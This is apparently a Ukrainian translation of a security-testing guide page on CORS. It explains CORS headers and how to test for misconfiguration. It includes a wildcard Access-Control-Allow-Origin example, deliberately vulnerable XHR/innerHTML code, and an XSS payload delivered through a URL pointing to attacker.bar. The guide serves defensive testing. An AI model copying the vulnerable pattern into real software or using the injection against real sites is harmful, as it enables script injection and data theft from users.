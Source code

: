 # Тестування Cross Origin Resource Sharing (CORS)

## Огляд

Спільне використання ресурсів між джерелами (англ: [Cross Origin Resource Sharing](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing), CORS) - це механізм, що дає змогу веббраузеру контрольованим чином робити міждоменні запити за допомогою API XMLHttpRequest (XHR) рівня 2 (L2). Раніше API XHR L1 дозволяв надсилати запити тільки в межах одного джерела, оскільки це було обмежено політикою одного джерела.

Міждоменні запити мають заголовок origin, який вказує на домен, що ініціював запит, і завжди надсилається на сервер. CORS визначає протокол між браузером і сервером, щоб визначити, чи дозволено запит з іншого джерела. Для цього використовуються [HTTP-заголовки](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing#Headers).

[Специфікація W3C CORS](https://www.w3.org/TR/cors/) передбачає, що для непростих запитів, відмінних від GET або POST, або в яких використовуються облікові дані, спершу надсилався попередній (англ.: pre-flight) запит OPTIONS, щоб перевірити, чи не чинитиме тип запиту негативного впливу на дані. Попередній запит перевіряє методи і заголовки, дозволені сервером, чи дозволені облікові дані. На основі результату запиту OPTIONS браузер вирішує, чи допустимий запит.

### Origin і Access-Control-Allow-Origin

Заголовок запиту origin завжди надсилається браузером у запиті CORS і вказує на джерело запиту. Його не можна змінити за допомогою JavaScript, однак, покладатися на цей заголовок для перевірки контролю доступу - не найкраща ідея, оскільки його можна підробити за межами браузера, тому необхідно перевірити, чи використовуються для захисту конфіденційної інформації протоколи на рівні застосунку.

Access-Control-Allow-Origin - заголовок відповіді, який використовується сервером для вказівки доменів, яким дозволено читати відповідь. Відповідно до специфікації CORS W3 на підставі цього заголовка клієнт повинен визначити і застосовувати обмеження.

З погляду тестування слід шукати незахищені конфігурації, наприклад, ті, що використовують символ підстановки `*` як значення заголовка Access-Control-Allow-Origin, що означає дозвіл читати відповідь будь-яким доменам. Інший небезпечний приклад - коли сервер повертає заголовок джерела без додаткових перевірок, що може призвести до доступу до конфіденційних даних. Зверніть увагу, що конфігурація дозволу міждоменних запитів дуже небезпечна і загалом неприйнятна, за винятком випадку публічного API, доступного для всіх.

### Access-Control-Request-Method і Access-Control-Allow-Method

Заголовок Access-Control-Request-Method використовується, коли браузер виконує попередній запит OPTIONS і дозволяє клієнту вказати підсумковий метод запиту. З іншого боку, Access-Control-Allow-Method - заголовок відповіді, який використовується сервером для опису дозволених клієнтам методів.

### Access-Control-Request-Headers і Access-Control-Allow-Headers

Ці два заголовки використовуються між браузером і сервером, щоб визначити, які заголовки можна використовувати для виконання міждоменного запиту.

### Access-Control-Allow-Credentials

Цей заголовок відповіді дає змогу браузерам читати відповідь під час передавання облікових даних. 

### Контроль вхідних даних

XMLHttpRequest L2 (або XHR L2) надає можливість створення міждоменного запиту з використанням XHR API для зворотної сумісності. Це може призвести до вразливостей, яких не було в XHR L1. Цікавими для експлуатації є URL, які передаються в XMLHttpRequest без валідації, особливо якщо дозволені абсолютні URL, оскільки це може призвести до ін'єкції коду. Ще одним аспектом застосунку, який можна експлуатувати, є те, що дані відповіді не екрануються, і ми можемо контролювати їх, надаючи дані, що вводяться користувачем.

### Інші заголовки

Існують й інші заголовки, як-от Access-Control-Max-Age, що визначає час, упродовж якого попередній запит може кешуватися в браузері, або Access-Control-Expose-Headers, який вказує, які заголовки безпечно надавати API за специфікацією CORS API, обидва є заголовками відповідей, указаними в документі CORS W3C.

## Завдання тестування

- Знайти точки входу, що реалізують CORS.
- Переконатися, що конфігурація CORS безпечна та нешкідлива.

## Як тестувати

Інструмент, наприклад, [ZAP](https://www.zaproxy.org), дає можливість тестувальникам перехоплювати заголовки HTTP, що показують як працює CORS. Тестувальники повинні звернути особливу увагу на заголовок origin, щоб дізнатися, які домени дозволені. Крім того, в деяких випадках потрібна ручна перевірка JavaScript, щоб визначити, чи вразливий він для ін'єкції коду через некоректну обробку введених користувачем даних. Нижче наведено кілька прикладів:

### Приклад 1: незахищена відповідь із символом підстановки `*` в Access-Control-Allow-Origin

Запит `http://attacker.bar/test.php` (зверніть увагу на заголовок ‘origin’):

```
GET /test.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/CORSexample1.html
Origin: http://example.foo
Connection: keep-alive
```

Відповідь (зверніть увагу на заголовок ‘Access-Control-Allow-Origin’):
```
HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 4
Content-Type: application/xml

[Response Body]
```

### Приклад 2: Проблема перевірки вхідних даних: XSS із CORS
Цей код робить запит до ресурсу, переданого після символу `#` в URL, який спочатку використовувався для отримання ресурсів на сервері.

Вразливий код:
```
<script>
    var req = new XMLHttpRequest();

    req.onreadystatechange = function() {
        if(req.readyState==4 && req.status==200) {
            document.getElementById("div1").innerHTML=req.responseText;
        }
    }

    var resource = location.hash.substring(1);
    req.open("GET",resource,true);
    req.send();
</script>

<body>
    <div id="div1"></div>
</body>
```

Наприклад, такий запит покаже вміст файлу `profile.php`:

`http://example.foo/main.php#profile.php`

Запит і відповідь створено за допомогою `http://example.foo/profile.php`:
```
GET /profile.php HTTP/1.1
Host: example.foo
[...]
Referer: http://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
[...]
Content-Length: 25
Content-Type: text/html

[Response Body]
```

Тепер, оскільки немає перевірки URL, ми можемо ввести віддалений скрипт, який буде впроваджено та виконано в контексті домену `example.foo`, з URL, подібною до цієї:

`http://example.foo/main.php#http://attacker.bar/file.php`

Запит і відповідь створено за допомогою `http://attacker.bar/file.php`:
```
GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/main.php
origin: http://example.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```
